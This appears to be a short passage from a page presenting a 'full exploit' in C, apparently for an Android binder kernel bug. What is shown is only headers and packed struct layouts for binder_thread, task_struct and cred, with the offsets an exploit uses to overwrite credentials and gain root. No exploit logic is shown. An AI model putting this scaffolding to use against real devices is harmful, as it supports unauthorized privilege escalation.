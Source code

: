 完整的exp:

```c
#define _GNU_SOURCE
#include <stdbool.h>
#include <sys/mman.h>
#include <sys/wait.h>
#include <ctype.h>
#include <sys/uio.h>
#include <err.h>
#include <sched.h>
#include <fcntl.h>
#include <sys/epoll.h>
#include <sys/ioctl.h>
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <linux/sched.h>
#include <string.h>
#include <sys/prctl.h>
#include <sys/socket.h>
#include <sys/un.h>
#include <errno.h>

struct binder_thread {
    uint8_t junk1[160];         /*    0    0xa0 */
    uint8_t wait[24];           /* 0xa0    0x18 */
    uint8_t junk2[224];         /* 0xb8    0xe0 */
} __attribute__((packed));      /* size:  0x198 */


struct task_struct {
    uint8_t junk1[1256];        /*     0  0x4e8 */
    pid_t pid;                  /* 0x4e8    0x4 */
    uint8_t junk2[412];         /* 0x4ec  0x19c */
    uint64_t cred;              /* 0x688    0x8 */
    uint8_t junk3[48];          /* 0x690   0x30 */
    uint64_t nsproxy;           /* 0x6c0    0x8 */
    uint8_t junk4[1944];        /* 0x6c8  0x798 */
} __attribute__((packed));      /* size:  0xe60 */


struct cred {
    int32_t usage;              /*    0    0x4 */
    uint32_t uid;               /*  0x4    0x4 */
    uint32_t gid;               /*  0x8    0x4 */
    uint32_t suid;              /*  0xc    0x4 */
    uint32_t sgid;              /* 0x10    0x4 */
    uint32_t euid;              /* 0x14    0x4 */
    uint32_t egid;              /* 0x18    0x4 */
    uint32_t fsuid;             /* 0x1c    0x4 */
    uint32_t fsgid;             /* 0x20    0x4 */
    uint32_t securebits;        /* 0x24    0x4 */
    uint64_t cap_inheritable;   /* 0x28    0x8 */
    uint64_t cap_permitted;     /* 0x30    0x8 */
    uint64_t cap_effective;     /* 0x38    0x8 */
    uint64_t cap_bset;          /* 0x40    0x8 */
    uint64_t cap_ambient;       /* 0x48    0x8 */
    uint8_t junk2[40];          /* 0x50   0x28 */
    void *security;             /* 0x78    0x8 */
    uint8_t junk3[40];          /* 0x80   0x28 */
} __attribute__((packed));      /* size:  0xA8 */

#define PAGE_SIZE 0x1000
```